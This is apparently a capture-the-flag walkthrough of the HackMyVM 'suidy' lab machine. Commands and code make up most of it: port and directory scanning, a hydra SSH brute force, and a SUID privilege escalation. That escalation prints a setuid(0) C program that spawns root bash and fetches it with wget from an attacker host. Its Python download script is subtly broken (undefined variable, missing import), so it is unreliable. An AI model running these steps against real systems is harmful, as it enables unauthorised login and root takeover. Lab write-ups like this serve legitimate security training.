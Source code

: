 ***Target: 10.0.0.40***  
***Difficulty: Medium***  
***Source: https://hackmyvm.eu/machines/machine.php?vm=suidy***

## ***NMAP***

    $ nmap -sS -T4 -p- 10.0.0.40

    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http

The nmap scan found 2 open ports, let's start by enumerating HTTP. 

## ***HTTP***

![image](https://user-images.githubusercontent.com/76552238/159710916-c021bf63-edc1-47cd-a087-45e27fd78a21.png)

Going to http://10.0.0.40 we are greeted with a friendly message.  

![image](https://user-images.githubusercontent.com/76552238/159711102-7cb51c27-544c-4978-b2bb-9ec1cdd27f2b.png)

And also a friendly comment, but no actual information. Let's brute force the directories. 

    $ gobuster dir -u http://10.0.0.40 -w /usr/share/wordlists/dirb/common.txt

    /index.html           (Status: 200) [Size: 22]
    /robots.txt           (Status: 200) [Size: 362]

Going to robots.txt we get this message.

robots.txt:

![image](https://user-images.githubusercontent.com/76552238/159711486-5ebf30e8-b561-453c-a512-cdfbb6be1609.png)

<!--/hi /....\..\.-\--.\.-\..\-. shehatesme-->

I didn't understand what was the meaning of the wired string so I searched similar patterns online and found out is was a 'Morse' code.

    Morse decode ---> H I A G A I N

Not very helpful but using the developer tools we can see the site has a comment.

![image](https://user-images.githubusercontent.com/76552238/159712092-cebf3fc0-b411-43f0-9ff6-178f7396e348.png)


Going to http://10.0.0.40/shehatesme we have a message.

![image](https://user-images.githubusercontent.com/76552238/159712255-d52ceeb6-d251-4bd8-af69-6b891ece1b8e.png)

    She hates me because I FOUND THE REAL SECRET! I put in this directory a lot of .txt files. ONE of .txt files contains credentials like "theuser/thepass" to access to her system! All that you need is an small dict from Seclist! 

>

    $ gobuster dir -u http://10.0.0.40/shehatesme/ -w /usr/share/seclists/Miscellaneous/lang-english.txt -x txt

I downloaded the tool '***seclists***' from ***https://github.com/danielmiessler/SecLists*** and after using the wordlist ***/usr/share/seclists/Miscellaneous/lang-english.txt*** I found these text files in the directory ***/shehatesme***.

    /about.txt            (Status: 200) [Size: 16]
    /admin.txt            (Status: 200) [Size: 16]
    /airport.txt          (Status: 200) [Size: 16]
    /alba.txt             (Status: 200) [Size: 16]
    /art.txt              (Status: 200) [Size: 16]
    /blog.txt             (Status: 200) [Size: 16]
    /es.txt               (Status: 200) [Size: 16]
    /folder.txt           (Status: 200) [Size: 16]
    /forums.txt           (Status: 200) [Size: 16]
    /full.txt             (Status: 200) [Size: 16]
    /guide.txt            (Status: 200) [Size: 16]
    /issues.txt           (Status: 200) [Size: 16]
    /java.txt             (Status: 200) [Size: 16]
    /jobs.txt             (Status: 200) [Size: 16]
    /link.txt             (Status: 200) [Size: 16]
    /network.txt          (Status: 200) [Size: 16]
    /new.txt              (Status: 200) [Size: 16]
    /other.txt            (Status: 200) [Size: 16]
    /page.txt             (Status: 200) [Size: 16]
    /privacy.txt          (Status: 200) [Size: 16]
    /search.txt           (Status: 200) [Size: 16]
    /secret.txt           (Status: 200) [Size: 16]
    /space.txt            (Status: 200) [Size: 16]
    /welcome.txt          (Status: 200) [Size: 16]
    /wha.txt              (Status: 200) [Size: 16]
    /cymru.txt            (Status: 200) [Size: 16]
    /google.txt           (Status: 200) [Size: 16]

Since the message says there are usernames and passwords in the files we need download and read them. After moving the file names to the file ***foundFiles.txt***, we can write a Python script to download the files to the directory ***/Files*** and then read them.

### ***findCredsFiles.py:***

	import requests
	import urllib
	
	URL = "http://10.0.0.40/shehatesme"
	
	with open ("./foundFiles.txt","r") as file:
	    lines = file.readlines()
	    for index in range(len(lines)):
	        fileName = lines[index].rstrip()
	        req = requests.post((URL + "/" + fileName) ,allow_redirects=True)
        urllib.request.urlretrieve(urlWithFiles, "Files/"+fileName)

>

    $ cd Files
    $ cat * | sort | uniq

    hidden1/passZZ!
    jaime11/JKiufg6
    jhfbvgt/iugbnvh
    john765/FDrhguy
    maria11/jhfgyRf
    mmnnbbv/iughtyr
    nhvjguy/kjhgyut
    yuijhse/hjupnkk

I divided the users and passwords to separate files.

    $ cat * | sort | uniq | cut -d '/' -f1 > ../users.txt
    $ cat * | sort | uniq | cut -d '/' -f2 > ../passwords.txt

Now that we have credentials we can brute force the SSH login. 

    $ hydra -L users.txt -P passwords.txt ssh://10.0.0.40 -IV 

Surprisingly none of the credentials we found were valid. Turns out the right credentials are ***theuser:thepass*** that were stated in the message.
(一_一)

After logging in we can find the first flag.

    $ cat user.txt 

![image](https://user-images.githubusercontent.com/76552238/159715397-d7064a03-7d28-4639-994a-e5d166199a59.png)


## ***PRIVILEGE ESCALATION***

Going to the ***/home*** we can that there is another user on the machine.

![image](https://user-images.githubusercontent.com/76552238/159715912-145678ac-7f10-4ab3-abe6-68087c484178.png)

Going to the directory ***/home/suidy*** we have some interesting information.

![image](https://user-images.githubusercontent.com/76552238/159715997-03003c88-1afa-4e81-9971-53e614922f6d.png)


### ***/home/suidy/note.txt***

    I love SUID files!
    The best file is suidyyyyy because users can use it to feel as I feel.
    root know it and run an script to be sure that my file has SUID. 
    If you are "theuser" I hate you!

    -suidy

The note says that there is a program on ***/root*** that checks if the executable '***suidyyyyy***' is SUID, we can upload '***pspy64s***' from ***https://github.com/DominicBreuker/pspy*** to the machine and see what happens.  

![image](https://user-images.githubusercontent.com/76552238/159716779-c075664a-f3d2-4ade-bc04-1accff865b6a.png)

If we run ***/home/suidy/suidyyyyy*** we switch to 'suidy' user.

![image](https://user-images.githubusercontent.com/76552238/159717048-6afa0de0-0dca-4394-8ee6-6417b7c3cb4b.png)

Because the script ***/root/timer.sh*** allows ***/home/suidy/suidyyyyy*** to be run with SUID permissions we can move another custom script that gives our user the 'UID' and 'GID' of the root user and a shell).

    UID:

    A UID (user identifier) is a number assigned by Linux to each user on the system. This number is used to identify the user to the system and to determine which system resources the user can access.

    - UID 0 (zero) is reserved for the root.
    - UIDs 1–99 are reserved for other predefined accounts.
    - UID 100–999 are reserved by system for administrative and system accounts/groups.
    - UID 1000–10000 are occupied by applications account.
    - UID 10000+ are used for user accounts.

    GID:

    Groups in Linux are defined by GIDs (group IDs).

    - GID 0 (zero) is reserved for the root group.
    - GID 1–99 are reserved for the system and application use.
    - GID 100+ allocated for the user’s group.

    From https://medium.com/@gggauravgandhi/uid-user-identifier-and-gid-group-identifier-in-linux-121ea68bf510

>

We can write a C script that changes our UID and GID.

### ***suidy.c:***

    #include <stdio.h>
    #include <sys/types.h>
    #include <unistd.h>
        #include <stdlib.h>
            
        int main(void)
    {
        setuid(0);
        setgid(0);
        system("/bin/bash");
    }

>

    $ wget 10.0.0.27/suidy.c /tmp
    $ cd /tmp
    $ gcc suidy.c -o suidyyyyy
    $ mv suidyyyyy /home/suidy/suidyyyyy
    $ /home/suidy/suidyyyyy
    $ id -a

![image](https://user-images.githubusercontent.com/76552238/159723026-cbd23918-259c-489b-b029-87c8de207834.png)

After downloading the script to the remote machine and executing it, we get a shell as the root user.  
We can now read the final flag.

### ***/root/root.txt:***

![image](https://user-images.githubusercontent.com/76552238/159723308-566fe009-1fb6-4af5-b892-8e3dcdddab26.png)
